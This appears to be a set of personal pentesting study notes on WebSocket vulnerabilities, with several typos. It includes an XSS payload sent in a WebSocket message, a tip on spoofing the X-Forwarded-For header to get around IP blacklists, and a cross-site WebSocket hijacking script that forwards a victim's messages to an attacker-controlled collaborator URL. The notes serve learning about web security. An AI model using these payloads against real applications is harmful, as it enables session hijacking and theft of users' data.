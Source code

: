 # WebSockets
Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications.  
We can exploit any vulns in websocket context:
```
{"message":"Hello Carlos"}
```
This websocket message is then renderred:
```
<td>Hello Carlos</td>
```
So we can do next:
```
{"message":"<img src=1 onerror='alert(1)'>"}
```
## Manipulating the WebSocket handshake to exploit vulnerabilities
* Misplaced trust in HTTP headers to perform security decisions, such as the X-Forwarded-For header. 
* Flaws in session handling mechanisms, since the session context in which WebSocket messages are processed is generally determined by the session context of the handshake message
* Attack surface introduced by custom HTTP headers used by the application
We can spoof our conenction IP when resending request to connect to websocket with `X-Forwarded-For` header to bypass blacklisting mechanism  
## Cross-site websocket hijacking
CSWH ois a CSRF on WebSocket handshake  
 An attacker can create a malicious web page on their own domain which establishes a cross-site WebSocket connection to the vulnerable application. The application will handle the connection in the context of the victim user's session with the application.  

The attacker's page can then send arbitrary messages to the server via the connection and read the contents of messages that are received back from the server. This means that, unlike regular CSRF, the attacker gains two-way interaction with the compromised application.  
To detect possibly vulnerable websocket conenctions, we need to look for websocket conenctions which aren't protected from CSRF attacks, so that aren't using any aadditional unpredictable tokens accept cookies.  
We can sue such script on our exploit server to receive websocket connections:
```
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
And send it to victim  
